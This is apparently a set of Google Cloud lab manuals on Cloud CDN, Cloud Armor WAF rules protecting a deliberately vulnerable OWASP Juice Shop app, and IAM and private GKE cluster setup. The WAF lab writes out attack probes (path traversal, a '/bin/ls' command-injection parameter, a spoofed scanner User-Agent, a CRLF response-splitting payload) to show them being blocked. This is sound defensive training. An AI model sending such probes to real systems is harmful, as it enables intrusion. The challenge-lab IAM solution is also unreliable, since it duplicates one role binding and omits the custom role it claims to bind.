Now that you've created an edge security policy in front of the back-end bucket, validate that it works as expected.
Check the security policy
After a few minutes have passed, you can check that the Cloud Armor policy is running.
From the command line, run the following command, which gives you a 403:
xxxxxxxxxxcurl -svo /dev/null http://LOAD_BALANCER_IP/google.png
Copied!
A 403 error occurs when you do not have permission to accessing a web page or something on a web server.
Output:
xxxxxxxxxxcurl -svo /dev/null http://34.98.81.123/google.png* Trying 34.98.81.123...* TCP_NODELAY set* Connected to 34.98.81.123 (34.98.81.123) port 80 (#0)> GET /google.png HTTP/1.1> Host: YOUR_IP> User-Agent: curl/7.64.1> Accept: */*>< HTTP/1.1 403 Forbidden< X-GUploader-UploadID: ADPycdtS6FtJOGIsiWYDrAAE8VFeQuNutcvbGoQe2t8EZxsuspVtmCjyiTv_P3CNktroHMOGFXkTCfG-Jj-rUO60ZGPpEbpqcw< Content-Type: application/xml; charset=UTF-8< Content-Length: 111< Date: Mon, 13 Dec 2021 23:09:35 GMT< Expires: Mon, 13 Dec 2021 23:09:35 GMT< Cache-Control: private, max-age=0< Server: UploadServer
Investigate the logs
Next, you check the logs to see the enforced edge security policy.
In the Navigation menu (
Enter the below snippet into the query box and click Run Query:
xxxxxxxxxxresource.type:(http_load_balancer) AND jsonPayload.@type="type.googleapis.com/google.cloud.loadbalancing.type.LoadBalancerLogEntry" AND severity>=WARNING
Copied!
Note the
403 responseand the enforced security policy.
Click Check my progress to verify the objective.
Create edge security policy for cloud Armor
Check my progress
Remove the security policy
To prove that the object is getting delivered from the CDN cache, remove the Cloud Armor security policy and query the object. The origin object has been removed from Cloud Storage, thus illustrating that the object is getting served from the edge cache.
In the Navigation menu (
Select the
lb-backend-buckettarget and click Remove to remove the target bucket. Confirm Remove.Wait a few minutes, then send another
curlto the resource in the Cloud Storage bucket:
xxxxxxxxxxcurl -svo /dev/null http://LOAD_BALANCER_IP/google.png
Copied!
You get a 200 response this time. The web page is acting as it is supposed to.
Output:
xxxxxxxxxxstudent-cloudshell% curl -svo /dev/null http://34.98.81.123/google.pngTrying 34.98.81.123...TCP_NODELAY setConnected to 34.98.81.123 (34.98.81.123) port 80 (#0)GET /google.png HTTP/1.1Host: YOUR_IPUser-Agent: curl/7.64.1Accept: */*HTTP/1.1 200 OKX-GUploader-UploadID: ADPycdtI7f49P3MSuZSZ8vl6RwfwmnIDJ59EeSKp7UPvLPawdaiRHXiNWLtseQTxUxceWOvSLvpYmT3pWVkV4qeIP7MDate: Mon, 13 Dec 2021 23:06:46 GMTLast-Modified: Mon, 13 Dec 2021 21:45:57 GMTETag: "8f9327db2597fa57d2f42b4a6c5a9855"x-goog-generation: 1639431957957903x-goog-metageneration: 2x-goog-stored-content-encoding: identityx-goog-stored-content-length: 5969Content-Type: image/pngx-goog-hash: crc32c=TeiHTA==x-goog-hash: md5=j5Mn2yWX+lfS9CtKbFqYVQ==x-goog-storage-class: STANDARDAccept-Ranges: bytesContent-Length: 5969Server: UploadServerAge: 1621Cache-Control: public,max-age=3600{ [775 bytes data]Connection #0 to host 34.98.81.123 left intactClosing connection 0
Try it a couple of times and see if you get a 403 status code.
Congratulations!
You have successfully created a Cloud Storage bucket, uploaded an image to it, bound it to a load balancer, and then enabled Cloud CDN and edge security policies on it.
Manual Last Updated December 10, 2024
Lab Last Tested December 10, 2024
LAB - Cloud Armor Preconfigured WAF Rules
Overview
Google Cloud Armor is Google's enterprise edge network security solution providing DDOS protection, WAF rule enforcement, and adaptive manageability at scale.
Cloud Armor has extended the preconfigured WAF rule sets to mitigate against the OWASP Top 10 web application security vulnerabilities. The rule sets are based on the OWASP Modsecurity core rule set version 3.0.2 to protect against some of the most common web application security risks including local file inclusion (lfi), remote file inclusion (rfi), remote code execution (rce), and many more.
In this lab, you learn how to mitigate some of the common vulnerabilities by using Google Cloud Armor WAF rules.
What you'll learn
In this lab, you learn how to:
Set up an Instance Group and a Global Load Balancer to support a service
Configure Cloud Armor security policies with preconfigured WAF rules to protect against lfi, rce, scanners, protocol attacks, and session fixation
Validate that Cloud Armor mitigated an attack by observing logs
The OWASP Juice Shop application is useful for security training and awareness, because it contains instances of each of the OWASP Top 10 security vulnerabilities—by design. An attacker can exploit it for testing purposes. In this lab, you use it to demonstrate some application attacks followed by protecting the application with Cloud Armor WAF rules. The application is fronted by a Google Cloud Load Balancer, onto which the Cloud Armor security policy and rules are be applied. It is served on the public internet thus reachable from almost anywhere and protected using Cloud Armor and VPC firewall rules.
Setup and requirements
Before you click the Start Lab button
Read these instructions. Labs are timed and you cannot pause them. The timer, which starts when you click Start Lab, shows how long Google Cloud resources are made available to you.
This hands-on lab lets you do the lab activities in a real cloud environment, not in a simulation or demo environment. It does so by giving you new, temporary credentials you use to sign in and access Google Cloud for the duration of the lab.
To complete this lab, you need:
Access to a standard internet browser (Chrome browser recommended).
Note: Use an Incognito (recommended) or private browser window to run this lab. This prevents conflicts between your personal account and the student account, which may cause extra charges incurred to your personal account.
Time to complete the lab—remember, once you start, you cannot pause a lab.
Note: Use only the student account for this lab. If you use a different Google Cloud account, you may incur charges to that account.
How to start your lab and sign in to the Google Cloud console
Click the Start Lab button. If you need to pay for the lab, a dialog opens for you to select your payment method. On the left is the Lab Details pane with the following:
The Open Google Cloud console button
Time remaining
The temporary credentials that you must use for this lab
Other information, if needed, to step through this lab
Click Open Google Cloud console (or right-click and select Open Link in Incognito Window if you are running the Chrome browser).
The lab spins up resources, and then opens another tab that shows the Sign in page.
*Tip:* Arrange the tabs in separate windows, side-by-side.
Note: If you see the Choose an account dialog, click Use Another Account.
If necessary, copy the Username below and paste it into the Sign in dialog.
xxxxxxxxxx"Username"Copied!
You can also find the Username in the Lab Details pane.
Click Next.
Copy the Password below and paste it into the Welcome dialog.
xxxxxxxxxx"Password"Copied!
You can also find the Password in the Lab Details pane.
Click Next.
Important: You must use the credentials the lab provides you. Do not use your Google Cloud account credentials.
Note: Using your own Google Cloud account for this lab may incur extra charges.
Click through the subsequent pages:
Accept the terms and conditions.
Do not add recovery options or two-factor authentication (because this is a temporary account).
Do not sign up for free trials.
After a few moments, the Google Cloud console opens in this tab.
Note: To access Google Cloud products and services, click the Navigation menu or type the service or product name in the Search field.
Activate Cloud Shell
Cloud Shell is a virtual machine that is loaded with development tools. It offers a persistent 5GB home directory and runs on the Google Cloud. Cloud Shell provides command-line access to your Google Cloud resources.
Click Activate Cloud Shell
Click through the following windows:
Continue through the Cloud Shell information window.
Authorize Cloud Shell to use your credentials to make Google Cloud API calls.
When you are connected, you are already authenticated, and the project is set to your Project_ID, PROJECT_ID. The output contains a line that declares the Project_ID for this session:
xxxxxxxxxxYour Cloud Platform project in this session is set to "PROJECT_ID"
gcloud is the command-line tool for Google Cloud. It comes pre-installed on Cloud Shell and supports tab-completion.
(Optional) You can list the active account name with this command:
xxxxxxxxxxgcloud auth list
Copied!
Click Authorize.
Output:
xxxxxxxxxxACTIVE: *ACCOUNT: "ACCOUNT"To set the active account, run:$ gcloud config set account `ACCOUNT`
(Optional) You can list the project ID with this command:
xxxxxxxxxxgcloud config list project
Copied!
Output:
xxxxxxxxxx[core]project = "PROJECT_ID"
Note: For full documentation of gcloud, in Google Cloud, refer to the gcloud CLI overview guide.
Before you begin
In Cloud Shell, set up your project ID:
xxxxxxxxxxgcloud config list projectexport PROJECT_ID=$(gcloud config get-value project)echo $PROJECT_IDgcloud config set project $PROJECT_ID
Copied!
Task 1. Create the VPC network
In Cloud Shell, enter the following command to create a VPC network:
xxxxxxxxxxgcloud compute networks create Network Name --subnet-mode custom
Copied!
xxxxxxxxxxCreatedNAME SUBNET_MODE BGP_ROUTING_MODENetwork Name CUSTOM REGIONAL
Create a subnet
In Cloud Shell, enter the following command to create a subnet:
xxxxxxxxxxgcloud compute networks subnets create Subnet Name \--network Network Name --range 10.0.0.0/24 --region Region
Copied!
xxxxxxxxxxCreatedNAME REGION NETWORK RANGESubnet Name Region Network Name 10.0.0.0/24
Create VPC firewall rules
After creating the VPC and subnet, set up a few firewall rules.
The first firewall rule named
allow-js-siteallows all IPs to access the external IP of the test application's website on port3000.The second firewall rule named
allow-health-checkallows health-checks from source IP of the load balancers.
In Cloud Shell, enter the following command to create a firewall rule to allow all IPs to access the application:
xxxxxxxxxxgcloud compute firewall-rules create Firewall Name --allow tcp:3000 --network Network Name
Copied!
Output:
xxxxxxxxxxCreating firewall...done.NAME NETWORK DIRECTION PRIORITY ALLOW DENY DISABLEDFirewall Name Network Name INGRESS 1000 tcp:3000 False
In Cloud Shell, enter the following command to create firewall rule to allow health-checks from the Google health-check ranges:
xxxxxxxxxxgcloud compute firewall-rules create Firewall Name1 \--network=Network Name \--action=allow \--direction=ingress \--source-ranges=130.211.0.0/22,35.191.0.0/16 \--target-tags=allow-healthcheck \--rules=tcp
Copied!
Output:
xxxxxxxxxxCreating firewall...done.NAME NETWORK DIRECTION PRIORITY ALLOW DENY DISABLEDFirewall_Name1 Network Name INGRESS 1000 tcp False
Click Check my progress to verify the objective.
Create the VPC network
Check my progress
Task 2. Set up the test application
Create the test application, in this case, the OWASP Juice Shop web server. When you create the compute instance, you use a container image to ensure the server has the appropriate services. You deploy this server in the Zone and has a network tag that allows health checks.
Create the OWASP Juice Shop application
Use the open source well-known OWASP Juice Shop application to serve as the vulnerable application. You can also use this application to do OWASP security challenges through the OWASP website.
xxxxxxxxxxgcloud compute instances create-with-container vm_instance --container-image bkimminich/juice-shop \--network Network Name \--subnet Subnet Name \--private-network-ip=10.0.0.3 \--machine-type n1-standard-2 \--zone Zone \--tags allow-healthcheck
Copied!
Output:
xxxxxxxxxxNAME ZONE MACHINE_TYPE PREEMPTIBLEvm_instance Zone n1-standard-2INTERNAL_IP EXTERNAL_IP STATUS10.0.0.3 <public ip=""> RUNNING</public>
Click Check my progress to verify the objective.
Set up the test application
Check my progress
Set up the Cloud load balancer component: instance group
In Cloud Shell, enter the following command to create the unmanaged instance group:
xxxxxxxxxxgcloud compute instance-groups unmanaged create Instance Group \--zone=Zone
Copied!
Output:
xxxxxxxxxxNAME LOCATION SCOPE NETWORK MANAGED INSTANCESInstance Group Zone zone 0
Add the Juice Shop Google Compute Engine (GCE) instance to the unmanaged instance group:
xxxxxxxxxxgcloud compute instance-groups unmanaged add-instances Instance Group \--zone=Zone \--instances=VM Instance
Copied!
Output:
xxxxxxxxxxUpdated [https://www.googleapis.com/compute/v1/projects/<project name="">/zones/Zone/instanceGroups/Instance_Group].</project>
Set the named port to that of the Juice Shop application:
xxxxxxxxxxgcloud compute instance-groups unmanaged set-named-ports \Instance Group \--named-ports=http:3000 \--zone=Zone
Copied!
Output:
xxxxxxxxxxUpdated [https://www.googleapis.com/compute/v1/projects/<project name="">/zones/Zone/instanceGroups/Instance Group].</project>
Click Check my progress to verify the objective.
Set up the Cloud load balancer component- instance group
Check my progress
Set up the Cloud load balancer component: health check
Now that you've created the unmanaged instance group, create a health check, backend service, URL map, target proxy, and forwarding rule.
In Cloud Shell, enter the following command to create the health-check for the Juice Shop service port:
xxxxxxxxxxgcloud compute health-checks create tcp tcp-port-3000 \--port 3000
Copied!
Output:
xxxxxxxxxxCreatedNAME PROTOCOLtcp-port-3000 TCP
Set up the Cloud load balancer component: backend service
In Cloud Shell, enter the following command to create the backend service parameters:
xxxxxxxxxxgcloud compute backend-services create juice-shop-backend \--protocol HTTP \--port-name http \--health-checks tcp-port-3000 \--enable-logging \--global
Copied!
Output:
xxxxxxxxxxNAME BACKENDS PROTOCOLjuice-shop-backend HTTP
Add the Juice Shop instance group to the backend service:
xxxxxxxxxxgcloud compute backend-services add-backend juice-shop-backend \--instance-group=Instance Group \--instance-group-zone=Zone \--global
Copied!
Output:
xxxxxxxxxxUpdated [https://www.googleapis.com/compute/v1/projects/cythom-host1/global/backendServices/juice-shop-backend].
Set up the Cloud load balancer component: URL map
In Cloud Shell, enter the following command to create the URL map to send incoming requests to the backend:
xxxxxxxxxxgcloud compute url-maps create juice-shop-loadbalancer \--default-service juice-shop-backend
Copied!
Output:
xxxxxxxxxxNAME DEFAULT_SERVICEjuice-shop-loadbalancer backendServices/juice-shop-backend
Set up the Cloud load balancer component: target proxy
In Cloud Shell, enter the following command to create the Target Proxy to route incoming requests the URL map:
xxxxxxxxxxgcloud compute target-http-proxies create juice-shop-proxy \--url-map juice-shop-loadbalancer
Copied!
Output:
xxxxxxxxxxNAME URL_MAPjuice-shop-proxy juice-shop-loadbalancer
Set up the Cloud load balancer component: forwarding rule
In Cloud Shell, enter the following command to create the forwarding rule for the Load Balancer:
xxxxxxxxxxgcloud compute forwarding-rules create juice-shop-rule \--global \--target-http-proxy=juice-shop-proxy \--ports=80
Copied!
Output:
xxxxxxxxxxCreated [https://www.googleapis.com/compute/v1/projects/cythom-host1/global/forwardingRules/juice-shop-rule].
Verify the Juice Shop service is online
From Cloud Shell:
xxxxxxxxxxPUBLIC_SVC_IP="$(gcloud compute forwarding-rules describe juice-shop-rule --global --format="value(IPAddress)")"echo $PUBLIC_SVC_IP
Copied!
Output:
xxxxxxxxxx<public VIP of service>
Wait a few minutes before continuing on, else you may retrieve a HTTP/1.1 404 Not Found response.
From Cloud Shell:
xxxxxxxxxxcurl -Ii http://$PUBLIC_SVC_IP
Copied!
Output:
xxxxxxxxxxHTTP/1.1 200 OK<...>
You can also go to the browser to view the Juice Shop!
You're now ready to explore the Juice Shop vulnerabilities and protect against them with Cloud Armor WAF rule sets.
Click Check my progress to verify the objective.
Set up the Cloud load balancer component- health check
Check my progress
Task 3. Demonstrate known vulnerabilities
In this lab, you demonstrate the states before and after Cloud Armor WAF rules are propagated in condensed steps.
Observe an LFI vulnerability: path traversal
Local File Inclusion is the process of observing files present on the server by exploiting lack of input validation in the request to potentially expose sensitive data. The following shows a path traversal is possible. In your browser or with curl, observe an existing path served by the application.
From Cloud Shell:
xxxxxxxxxxcurl -Ii http://$PUBLIC_SVC_IP/ftp
Copied!
Output:
xxxxxxxxxxHTTP/1.1 200 OK<...>
Observe that path traversal works too.
From Cloud Shell:
xxxxxxxxxxcurl -Ii http://$PUBLIC_SVC_IP/ftp/../
Copied!
Output:
xxxxxxxxxxHTTP/1.1 200 OK<...>
Observe an RCE vulnerability
Remote Code Execution includes various UNIX and Windows command injection scenarios allowing attackers to execute OS commands usually restricted to privileged users. The following shows a simple ls command execution passed in.
From Cloud Shell:
xxxxxxxxxxcurl -Ii http://$PUBLIC_SVC_IP/ftp?doc=/bin/ls
Copied!
Output:
xxxxxxxxxxHTTP/1.1 200 OK<...>
Remove the curl flags to observe the full output.
Observe a well-known scanner's access
Both commercial and open source scan applications for various purposes, including to find vulnerabilities. These tools use well-known User-Agent and other Headers. Observe curl works with a well-known User-Agent Header.
In Cloud Shell:
xxxxxxxxxxcurl -Ii http://$PUBLIC_SVC_IP -H "User-Agent: blackwidow"
Copied!
Output:
xxxxxxxxxxHTTP/1.1 200 OK<...>
Observe a protocol attack: HTTP splitting
Some web applications use input from the user to generate the headers in the responses. If the application doesn't properly filter the input, an attacker can potentially poison the input parameter with the sequence %0d%0a (the CRLF sequence that is used to separate different lines).
The response could then be interpreted as two responses by anything that happens to parse it, like an intermediary proxy server, potentially serving false content in subsequent requests. Insert the sequence %0d%0a into the input parameter, which can lead to serving a misleading page.
From Cloud Shell:
xxxxxxxxxxcurl -Ii "http://$PUBLIC_SVC_IP/index.html?foo=advanced%0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:%20text/html%0d%0aContent-Length:%2035%0d%0a%0d%0a<html>Sorry,%20System%20Down</html>"
Copied!
Output:
xxxxxxxxxxHTTP/1.1 200 OK<...>
Observe session fixation
In Cloud Shell:
xxxxxxxxxxcurl -Ii http://$PUBLIC_SVC_IP -H session_id=X
Copied!
Output:
xxxxxxxxxxHTTP/1.1 200 OK<...>
Task 4. Define Cloud Armor WAF rules
List the preconfigured WAF rules, using the following command in Cloud Shell:
xxxxxxxxxxgcloud compute security-policies list-preconfigured-expression-sets
Copied!
xxxxxxxxxxEXPRESSION_SETSqli-canaryRULE_IDowasp-crs-v030001-id942110-sqliowasp-crs-v030001-id942120-sqli<...>
Create the Cloud Armor security policy using the following command in Cloud Shell:
xxxxxxxxxxgcloud compute security-policies create Policy Name \--description "Block with OWASP ModSecurity CRS"
Copied!
In Cloud Shell, update the security policy default rule.
Note: The default rule priority has a numerical value of 2147483647.
xxxxxxxxxxgcloud compute security-policies rules update 2147483647 \--security-policy Policy Name \--action "deny-403"
Copied!
Since the default rule is configured with action deny, you must allow access from your IP. Please find your public IP (curl, ipmonkey, whatismyip, etc):
xxxxxxxxxxMY_IP=$(curl ifconfig.me)
Copied!
Add the first rule to allow access from your IP (INSERT YOUR IP BELOW):
xxxxxxxxxxgcloud compute security-policies rules create 10000 \--security-policy Policy Name \--description "allow traffic from my IP" \--src-ip-ranges "$MY_IP/32" \--action "allow"
Copied!
In Cloud Shell, update the security policy to block LFI attacks.
Apply the OWASP ModSecurity Core Rule Set that prevents path traversal for local file inclusions.
xxxxxxxxxxgcloud compute security-policies rules create 9000 \--security-policy Policy Name \--description "block local file inclusion" \--expression "evaluatePreconfiguredExpr('lfi-stable')" \--action deny-403
Copied!
In Cloud Shell, update the security policy to block Remote Code Execution (rce).
Per the OWASP ModSecurity Core Rule Set, apply rules that look for rce, including command injection. Typical OS commands are detected and blocked.
xxxxxxxxxxgcloud compute security-policies rules create 9001 \--security-policy Policy Name \--description "block rce attacks" \--expression "evaluatePreconfiguredExpr('rce-stable')" \--action deny-403
Copied!
Update the security policy to block security scanners.
Apply the OWASP ModSecurity Core Rule Set to block well-known security scanners, scripting HTTP clients, and web crawlers.
xxxxxxxxxxgcloud compute security-policies rules create 9002 \--security-policy Policy Name \--description "block scanners" \--expression "evaluatePreconfiguredExpr('scannerdetection-stable')" \--action deny-403
Copied!
In Cloud Shell, update the security policy to block protocol attacks.
Per the OWASP ModSecurity Core Rule Set, apply rules that look for Carriage Return (CR) %0d and Linefeed (LF)%0a characters and other types of protocol attacks like HTTP Request Smuggling.
xxxxxxxxxxgcloud compute security-policies rules create 9003 \--security-policy Policy Name \--description "block protocol attacks" \--expression "evaluatePreconfiguredExpr('protocolattack-stable')" \--action deny-403
Copied!
Update the security policy to block session fixation.
Per the OWASP ModSecurity Core Rule Set, apply the following rules using Cloud Shell:
xxxxxxxxxxgcloud compute security-policies rules create 9004 \--security-policy Policy Name \--description "block session fixation attacks" \--expression "evaluatePreconfiguredExpr('sessionfixation-stable')" \--action deny-403
Copied!
Attach the security policy to the backend service:
xxxxxxxxxxgcloud compute backend-services update juice-shop-backend \--security-policy Policy Name \--global
Copied!
Rules may take some time to propagate (but not more than 10 mins).
Once sufficient time has passed, test the vulnerabilities previously demonstrated to confirm Cloud Armor WAF rule enforcement in the next step.
Click Check my progress to verify the objective.
Create the Cloud Armor security policy
Check my progress
Observe Cloud Armor protection with OWASP ModSecurity Core Rule Set
In Cloud Shell, confirm the LFI vulnerability is mitigated:
xxxxxxxxxxcurl -Ii http://$PUBLIC_SVC_IP/?a=../
Copied!
Output:
xxxxxxxxxxHTTP/1.1 403 Forbidden<...>
In Cloud Shell, confirm the RCE attack is mitigated:
xxxxxxxxxxcurl -Ii http://$PUBLIC_SVC_IP/ftp?doc=/bin/ls
Copied!
Output:
xxxxxxxxxxHTTP/1.1 403 Forbidden<..>
In Cloud Shell, confirm well-known scanner detection.
xxxxxxxxxxcurl -Ii http://$PUBLIC_SVC_IP -H "User-Agent: blackwidow"
Copied!
Output:
xxxxxxxxxxHTTP/1.1 403 Forbidden<..>
In Cloud Shell, confirm a protocol attack is mitigated.
Per the OWASP ModSecurity Core Rule Set ver.3.0.2, the protocol attack is mitigated by:
xxxxxxxxxxcurl -Ii "http://$PUBLIC_SVC_IP/index.html?foo=advanced%0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:%20text/html%0d%0aContent-Length:%2035%0d%0a%0d%0a<html>Sorry,%20System%20Down</html>"
Copied!
Output:
xxxxxxxxxxHTTP/1.1 403 Forbidden<..>
In Cloud Shell, confirm session fixation attempts are blocked:
xxxxxxxxxxcurl -Ii http://$PUBLIC_SVC_IP/?session_id=a
Copied!
Output:
xxxxxxxxxxHTTP/1.1 403 Forbidden<..>
Task 5. Review Cloud Armor Security rules
Now that you've created the security policy, look at what rules have been configured.
Rules are evaluated by priority: lower numbers are evaluated first and once triggered, processing does not continue for rules with higher priority values.
Priority
9000- Block LFI (local file inclusion)Priority
9001- Block RCE (remote code execution/command injection)Priority
9002- Block Scanners DetectedPriority
9003- Block Protocol Attacks like HTTP splitting and HTTP smugglingPriority
9004- Block Session Fixation AttacksPriority
10000- Allow your IP to access the WebsitePriority
Default- Deny.
Note: Notice the "allow your IP" rule is configured with the highest priority number to allow access to the site, however blocks any attack.
Task 6. Observe Cloud Armor security policy logs
From the Cloud Armor console page, view details of the security policy and click the Logs tab followed by the View policy logs link to be directed to the Cloud Logging page. It automatically filters based on the security policy of interest, for example, resource.type:(http_load_balancer) AND jsonPayload.enforcedSecurityPolicy.name:Policy Name. Observe the 403 error response codes and expand the log details to observe the enforced security policy's name, matched field value, and further down the preconfigured expression IDs (or the signature id).
It automatically filters based on the security policy of interest, for example, resource.type:(http_load_balancer) AND jsonPayload.enforcedSecurityPolicy.name:(Policy Name).
Observe the 403 error response codes and expand the log details to observe the enforced security policy's name, matched field value, and further down the preconfigured expression IDs (or the signature id).
The following screenshots show examples of the logs for the enforced security policies configured in this lab.
LFI log
RCE log

Scanner detection log
Protocol attack log
Session fixation log
Congratulations!
You've successfully mitigated some of the common vulnerabilities by using Google Cloud Armor WAF rules.
Manual Last Updated November 06, 2024
Lab Last Tested November 06, 2024
Implement Cloud Security Fundamentals on Google Cloud
Implement Cloud Security Fundamentals on Google Cloud: Challenge Lab
Overview
In a challenge lab you’re given a scenario and a set of tasks. Instead of following step-by-step instructions, you will use the skills learned from the labs in the course to figure out how to complete the tasks on your own! An automated scoring system (shown on this page) will provide feedback on whether you have completed your tasks correctly.
When you take a challenge lab, you will not be taught new Google Cloud concepts. You are expected to extend your learned skills, like changing default values and reading and researching error messages to fix your own mistakes.
To score 100% you must successfully complete all tasks within the time period!
This lab is recommended for students who have enrolled in the Implement Cloud Security Fundamentals on Google Cloud skill badge. Are you ready for the challenge?
Topics tested
Create a custom security role.
Create a service account.
Bind IAM security roles to a service account.
Create a private Kubernetes Engine cluster in a custom subnet.
Deploy an application to a private Kubernetes Engine cluster
Setup and requirements
Before you click the Start Lab button
Read these instructions. Labs are timed and you cannot pause them. The timer, which starts when you click Start Lab, shows how long Google Cloud resources are made available to you.
This hands-on lab lets you do the lab activities in a real cloud environment, not in a simulation or demo environment. It does so by giving you new, temporary credentials you use to sign in and access Google Cloud for the duration of the lab.
To complete this lab, you need:
Access to a standard internet browser (Chrome browser recommended).
Note: Use an Incognito (recommended) or private browser window to run this lab. This prevents conflicts between your personal account and the student account, which may cause extra charges incurred to your personal account.
Time to complete the lab—remember, once you start, you cannot pause a lab.
Note: Use only the student account for this lab. If you use a different Google Cloud account, you may incur charges to that account.
Challenge scenario
You have started a new role as a junior member of the security team for the Orca team in Jooli Inc. Your team is responsible for ensuring the security of the Cloud infrastructure and services that the company's applications depend on.
You are expected to have the skills and knowledge for these tasks, so don't expect step-by-step guides to be provided.
Your challenge
You have been asked to deploy, configure, and test a new Kubernetes Engine cluster that will be used for application development and pipeline testing by the Orca development team.
As per the organization's security standards you must ensure that the new Kubernetes Engine cluster is built according to the organization's most recent security standards and thereby must comply with the following:
The cluster must be deployed using a dedicated service account configured with the least privileges required.
The cluster must be deployed as a Kubernetes Engine private cluster, with the public endpoint disabled, and the master authorized network set to include only the ip-address of the Orca group's management jumphost.
The Kubernetes Engine private cluster must be deployed to the
orca-build-subnetin the Orca Build VPC.
From a previous project you know that the minimum permissions required by the service account that is specified for a Kubernetes Engine cluster is covered by these three built in roles:
roles/monitoring.viewerroles/monitoring.metricWriterroles/logging.logWriter
These roles are specified in the Google Kubernetes Engine (GKE)'s Harden your cluster's security guide in the Use least privilege Google service accounts section.
You must bind the above roles to the service account used by the cluster as well as a custom role that you must create in order to provide access to any other services specified by the development team. Initially you have been told that the development team requires that the service account used by the cluster should have the permissions necessary to add and update objects in Google Cloud Storage buckets. To do this you will have to create a new custom IAM role that will provide the following permissions:
storage.buckets.getstorage.objects.getstorage.objects.liststorage.objects.updatestorage.objects.create
Once you have created the new private cluster you must test that it is correctly configured by connecting to it from the jumphost, orca-jumphost, in the management subnet orca-mgmt-subnet. As this compute instance is not in the same subnet as the private cluster you must make sure that the master authorized networks for the cluster includes the internal ip-address for the instance, and you must specify the --internal-ip flag when retrieving cluster credentials using the gcloud container clusters get-credentials command.
All new cloud objects and services that you create should include the "orca-" prefix.
Your final task is to validate that the cluster is working correctly by deploying a simple application to the cluster to test that management access to the cluster using the kubectl tool is working from the orca-jumphost compute instance.
For all tasks in this lab, use the europe-west4 region and the europe-west4-b zone.
Task 1. Create a custom security role
Your first task is to create a new custom IAM security role called orca_storage_editor_401 that will provide the Google Cloud storage bucket and object permissions required to be able to create and update storage objects.
Solution
Create a Role Definition File:
xxxxxxxxxxcat > role-definition.yaml <<EOF_ENDtitle: "$CUSTOM_SECURIY_ROLE"description: "Permissions"stage: "ALPHA"includedPermissions:- storage.buckets.get- storage.objects.get- storage.objects.list- storage.objects.update- storage.objects.createEOF_END
Here, we create a YAML file that defines the custom IAM role. This file specifies the title, description, stage, and included permissions for the role.
Create the Custom Security Role:
xxxxxxxxxxgcloud iam roles create $CUSTOM_SECURIY_ROLE --project $DEVSHELL_PROJECT_ID --file role-definition.yaml
Assessment Completed!
Check that a Custom security role has been created.
Check my progress
Assessment Completed!
Task 2. Create a service account
Your second task is to create the dedicated service account that will be used as the service account for your new private cluster. You must name this account orca-private-cluster-523-sa.
Solution
xxxxxxxxxxgcloud iam service-accounts create orca-private-cluster-523-sa --display-name "Orca Private Cluster Service Account"
Check that a new service account has been created.
Check my progress
Task 3. Bind a custom security role to a service account
You must now bind the Cloud Operations logging and monitoring roles that are required for Kubernetes Engine Cluster service accounts as well as the custom IAM role you created for storage permissions to the Service Account you created earlier.
Solution
Bind IAM Policy Roles:
xxxxxxxxxxgcloud projects add-iam-policy-binding qwiklabs-gcp-02-7589d0814713 --member serviceAccount:orca-private-cluster-523-sa@qwiklabs-gcp-02-7589d0814713.iam.gserviceaccount.com --role roles/monitoring.viewergcloud projects add-iam-policy-binding qwiklabs-gcp-02-7589d0814713 --member serviceAccount:orca-private-cluster-523-sa@qwiklabs-gcp-02-7589d0814713.iam.gserviceaccount.com --role roles/monitoring.metricWritergcloud projects add-iam-policy-binding qwiklabs-gcp-02-7589d0814713 --member serviceAccount:orca-private-cluster-523-sa@qwiklabs-gcp-02-7589d0814713.iam.gserviceaccount.com --role roles/logging.logWritergcloud projects add-iam-policy-binding qwiklabs-gcp-02-7589d0814713 --member serviceAccount:orca-private-cluster-523-sa@qwiklabs-gcp-02-7589d0814713.iam.gserviceaccount.com --role roles/logging.logWriter
These commands bind various IAM roles to the service account. The roles monitoring.viewer, monitoring.metricWriter, and logging.logWriter provide monitoring and logging capabilities. The custom role created in Task 1 is also bound to the service account.
Check that a the correct built in and custom security roles have been bound to the new service account.
Check my progress
Task 4. Create and configure a new Kubernetes Engine private cluster
You must now use the service account you have configured when creating a new Kubernetes Engine private cluster. The new cluster configuration must include the following:
The cluster must be called
orca-cluster-455The cluster must be deployed to the subnet
orca-build-subnetThe cluster must be configured to use the
orca-private-cluster-523-saservice account.The private cluster options
enable-master-authorized-networks,enable-ip-alias,enable-private-nodes, andenable-private-endpointmust be enabled.
Once the cluster is configured you must add the internal ip-address of the orca-jumphost compute instance to the master authorized network list.
Create the GKE Cluster:
xxxxxxxxxxgcloud container clusters create $CLUSTER_NAME --num-nodes 1 --master-ipv4-cidr=172.16.0.64/28 --network orca-build-vpc --subnetwork orca-build-subnet --enable-master-authorized-networks --master-authorized-networks 192.168.10.2/32 --enable-ip-alias --enable-private-nodes --enable-private-endpoint --service-account $SERVICE_ACCOUNT@$DEVSHELL_PROJECT_ID.iam.gserviceaccount.com --zone $ZONE
This command creates a private Google Kubernetes Engine (GKE) cluster. Key configurations include enabling private nodes and endpoints, setting master authorized networks, and specifying the service account for the cluster.
Confirm that a Kubernetes Engine private cluster has been deployed correctly.
Check my progress
Task 5. Deploy an application to a private Kubernetes Engine cluster
You have a simple test application that can be deployed to any cluster to quickly test that basic container deployment functionality is working and that basic services can be created and accessed. You must configure the environment so that you can deploy this simple demo to the new cluster using the jumphost orca-jumphost.
Note: Make sure to properly install the gke-gcloud-auth-plugin before running any kubectl commands. This is detailed below in Tip 1.
xxxxxxxxxxkubectl create deployment hello-server --image=gcr.io/google-samples/hello-app:1.0
This deploys an application that listens on port 8080 that can be exposed using a basic load balancer service for testing.
Solution
Connect to the orca-jumphost VM
xxxxxxxxxxgcloud compute ssh --zone "$ZONE" "orca-jumphost" --project qwiklabs-gcp-02-7589d0814713
Run this command to orca-jumphost VM
xxxxxxxxxxgcloud config set compute/zone europe-west4-bgcloud container clusters get-credentials orca-cluster-455 --project qwiklabs-gcp-02-7589d0814713 --internal-ip --location europe-west4sudo apt-get install google-cloud-sdk-gke-gcloud-auth-pluginkubectl create deployment hello-server --image=gcr.io/google-samples/hello-app:1.0
Check that an application has been deployed to a private Kubernetes Engine cluster.
Check my progress
Congratulations!
